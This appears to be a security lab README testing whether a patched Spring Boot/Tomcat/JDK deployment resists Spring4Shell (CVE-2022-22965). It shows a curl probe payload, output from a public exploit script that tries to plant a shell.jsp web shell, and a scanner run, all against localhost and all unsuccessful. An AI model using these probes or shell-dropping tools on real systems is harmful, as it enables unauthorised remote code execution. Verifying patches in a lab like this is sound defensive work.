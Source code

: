 # Lab 3: Fixed Deployment

So far we have tried poc exploit on vulnerable versions lets try exploit on fixed version of spring boot, tomcat and JDK 

```js
Tomcat version: 8.5.78 (not vulnerable)
openJDK: 8 (not vulnerable)
Spring Boot: 2.6.6 (not vulnerable)
```

## How to deploy?

```bash
docker build . -t sp4s-tomcat8.5.78-jdk8-spb2.6.6 && docker run -p 8002:8080 sp4s-tomcat8.5.78-jdk8-spb2.6.6
```

You can access the application at http://localhost:8002/helloworld/greeting

## Test if application is vulnerable

### POC 1: Using curl 

Source: https://twitter.com/RandoriAttack/status/1509298490106593283

If application is vulnerable it will return HTTP 400 code.

Original POC

```bash
$ curl host:port/path?class.module.classLoader.URLs%5B0%5D=0
```

Since our lab application endpoint accepts data from POST request we will send payload in body

```bash
$ curl -i http://localhost:8002/helloworld/greeting -d class.module.classLoader.URLs%5B0%5D=0
HTTP/1.1 200 
Content-Type: text/html;charset=UTF-8
Content-Language: en
Date: Sun, 17 Apr 2022 20:43:46 GMT
Connection: close
Content-Length: 185

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Reznok's Hello World Spring Application</title>
</head>
<body>
    Hello World! Exploit me!
</body>
</html>
```

As suggested by poc author that application give 400 response if it is using vulnerable version since this version is not vulnerable
we get 200 OK response.

let's try to exploit it using another exploit poc


### POC 2

https://github.com/BobTheShoplifter/Spring4Shell-POC

```bash
$ python exploit.py --url http://localhost:8002/helloworld/greeting
[*] Resetting Log Variables.
[*] Response code: 200
[*] Modifying Log Configurations
[*] Response code: 200
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 200
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://localhost:8002/shell.jsp?cmd=id
```

This poc tries to upload the shell and shows the response code and the shell location without verifying if the exploit actually
worked so if you go to the provided url you will get 404 Not Found error.


## POC 3
https://github.com/fullhunt/spring4shell-scan

```bash
$ python spring4shell-scan.py --url http://localhost:8002/helloworld/greeting
[•] CVE-2022-22965 - Spring4Shell RCE Scanner
[•] Scanner provided by FullHunt.io - The Next-Gen Attack Surface Management Platform.
[•] Secure your External Attack Surface with FullHunt.io.
[•] URL: http://localhost:8002/helloworld/greeting
[%] Checking for Spring4Shell RCE CVE-2022-22965.
[•] URL: http://localhost:8002/helloworld/greeting | PAYLOAD: class.module.classLoader[z2xxa8m]=z2xxa8m
[•] Target does not seem to be vulnerable.
[•] No affected targets were discovered.
```

